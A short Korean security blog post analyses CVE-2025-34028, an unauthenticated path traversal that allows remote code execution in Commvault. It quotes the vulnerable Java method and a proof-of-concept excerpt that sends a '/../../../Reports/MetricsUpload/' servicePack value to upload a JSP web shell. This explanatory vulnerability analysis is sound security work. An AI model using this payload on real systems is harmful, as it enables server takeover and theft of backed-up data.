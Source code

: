 ```yaml
---
title: "[하루한줄] CVE-2025-34028: Commvault Path Traversal 통한 Remote Code Execution 취약점"
author: mungsul
tags: [Commvault, Path Traversal, Remote Code Execution, mungsul]
categories: [1day1line]
date: 2025-05-10 18:00:00
cc: true
index_img: /img/1day1line.png
---
```

## URL

- https://labs.watchtowr.com/fire-in-the-hole-were-breaching-the-vault-commvault-remote-code-execution-cve-2025-34028/

## Target

- Commvault 11.38.0 – 11.38.19

## Explain

데이터 백업 솔루션인 Commvault 에서 Remote Code Execution 이 발견되었습니다.

취약점은  `deployWebpackage.do` 와 `deployServiceCommcell.do` 두 곳에서 트리거 될 수 있습니다. `deployWebpackage.do` 로 트리거하면 외부 서버에서 zip 파일을 갖고 오고 `deployServiceCommcell.do` 는 zip 파일을 바로 업로드할 수 있습니다. 두 엔드포인트 모두 `deployCCPackage` 메소드를 호출하는데요. 여기에서 `servicePack` 파라메터에 검증이 없기 때문에 압축을 풀 때 상위 디렉토리 접근이 가능합니다.

```java
 private void deployCCPackage(String servicePack) throws IOException {
        String BASE_PATH = this.extractPath(this.fileZipUtil.getResourcePath(""), false);
        String CC_DEPLOY_PATH = BASE_PATH + File.separator + "Apache" + File.separator + "conf" + File.separator + "ccPackages" + File.separator;
        String DIST_CC_PATH = BASE_PATH + File.separator + "AdminConsole" + File.separator + "dist-cc-sps" + File.separator;
        String TEMP_DIR = servicePack + ".tmp" + File.separator + "dist-cc";
        String SERVICEPACK_DEPLOY_PATH = DIST_CC_PATH + servicePack + ".tmp"; 
        File dir = new File(SERVICEPACK_DEPLOY_PATH);
        if (dir.exists()) {
            FileUtils.deleteDirectory(dir);
        }

    this.fileZipUtil.unzipFileWrtAbsPath(CC_DEPLOY_PATH + servicePack + File.separator + "dist-cc.zip", DIST_CC_PATH + TEMP_DIR); 
```

PoC 코드의 일부를 보면 웹 서버에서 접근 가능한 `/Reports/MetricsUpload/` 쪽을 대상으로 servicePack 변수를 세팅[1]해서 웹쉘 업로드를 시키는 것을 볼 수 있습니다.

```java
...
random_path = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(8))
print(f"[*] Uploading to  /reports/MetricsUpload/{random_path}/")
upload_url = f"{args.url}/commandcenter/deployServiceCommcell.do"
upload_headers = {"User-Agent": "CommvaultRCEPoC", "Accept": "*/*"}
upload_form = { 
        'servicePack': (None, f'/../../../Reports/MetricsUpload/{random_path}/', 'text/plain'), # [1]
        'version': (None, '12.45', 'text/plain'),
        'file': ('file.zip', shell, 'application/octet-stream')
}
requests.post(upload_url, headers=upload_headers, files=upload_form, verify=False)

shell_url = f"{args.url}/reports/MetricsUpload/{random_path}/.tmp/dist-cc/dist-cc/shell.jsp"
...
```

참고자료에 따르면 심지어 이 엔드포인트들은 인증을 수행하지 않기 때문에 preauth 로도 트리거가 가능합니다. 그리고 해당 솔루션은 SaaS 로도 제공되기 때문에 외부로 오픈되어 있다면 RCE 로 인해 권한이 탈취당하고 백업된 데이터들 까지도 영향을 미칠 수 있어 파급력이 높아보이네요.

## Reference

- https://labs.watchtowr.com/fire-in-the-hole-were-breaching-the-vault-commvault-remote-code-execution-cve-2025-34028/

- https://github.com/watchtowrlabs/watchTowr-vs-Commvault-PreAuth-RCE-CVE-2025-34028/blob/main/watchtowr-vs-commvault-rce-CVE-2025-34028.py
